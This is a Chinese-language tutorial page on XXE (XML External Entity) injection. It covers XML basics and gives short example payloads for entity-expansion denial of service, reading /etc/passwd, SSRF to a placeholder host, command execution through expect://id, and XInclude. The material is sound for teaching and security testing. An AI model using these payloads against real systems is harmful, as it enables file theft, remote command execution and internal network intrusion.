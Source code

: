 XXE
======================================

XML基础
--------------------------------------
XML 指可扩展标记语言（eXtensible Markup Language），是一种用于标记电子文件使其具有结构性的标记语言，被设计用来传输和存储数据。XML文档结构包括XML声明、DTD文档类型定义（可选）、文档元素。目前，XML文件作为配置文件（Spring、Struts2等）、文档结构说明文件（PDF、RSS等）、图片格式文件（SVG header）应用比较广泛。 XML 的语法规范由 DTD （Document Type Definition）来进行控制。

基本语法
--------------------------------------
XML 文档在开头有 ``<?xml version="1.0" encoding="UTF-8" standalone="yes"?>`` 的结构，这种结构被称为 XML prolog ，用于声明XML文档的版本和编码，是可选的，但是必须放在文档开头。

除了可选的开头外，XML 语法主要有以下的特性：

- 所有 XML 元素都须有关闭标签
- XML 标签对大小写敏感
- XML 必须正确地嵌套
- XML 文档必须有根元素
- XML 的属性值需要加引号

另外，XML也有CDATA语法，用于处理有多个字符需要转义的情况。

XXE简介
--------------------------------------
当允许引用外部实体时，可通过构造恶意的XML内容，导致读取任意文件、执行系统命令、探测内网端口、攻击内网网站等后果。一般的XXE攻击，只有在服务器有回显或者报错的基础上才能使用XXE漏洞来读取服务器端文件，但是也可以通过Blind XXE的方式实现攻击。

攻击方式
--------------------------------------

拒绝服务攻击
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
::

    <!DOCTYPE data [
    <!ELEMENT data (#ANY)>
    <!ENTITY a0 "dos" >
    <!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;">
    <!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;">
    ]>
    <data>&a2;</data>

若解析过程非常缓慢，则表示测试成功，目标站点可能有拒绝服务漏洞。
具体攻击可使用更多层的迭代或递归，也可引用巨大的外部实体，以实现攻击的效果。


文件读取
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
::

    <?xml version="1.0"?>
    <!DOCTYPE data [
    <!ELEMENT data (#ANY)>
    <!ENTITY file SYSTEM "file:///etc/passwd">
    ]>
    <data>&file;</data>

SSRF
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
::

    <?xml version="1.0"?>
    <!DOCTYPE data SYSTEM "http://publicServer.com/" [
    <!ELEMENT data (#ANY)>
    ]>
    <data>4</data>

RCE
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
::

    <?xml version="1.0"?>
    <!DOCTYPE GVI [ <!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM "expect://id" >]>
    <catalog>
       <core id="test101">
          <description>&xxe;</description>
       </core>
    </catalog>

XInclude
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
::

    <?xml version='1.0'?>
    <data xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include href="http://publicServer.com/file.xml"></xi:include></data>

参考链接
--------------------------------------
- `XML教程 <http://www.w3school.com.cn/xml/>`_
- `未知攻焉知防 XXE漏洞攻防 <https://security.tencent.com/index.php/blog/msg/69>`_
- `XXE 攻击笔记分享 <http://www.freebuf.com/articles/web/97833.html>`_
- `从XML相关一步一步到XXE漏洞 <https://xz.aliyun.com/t/6887>`_
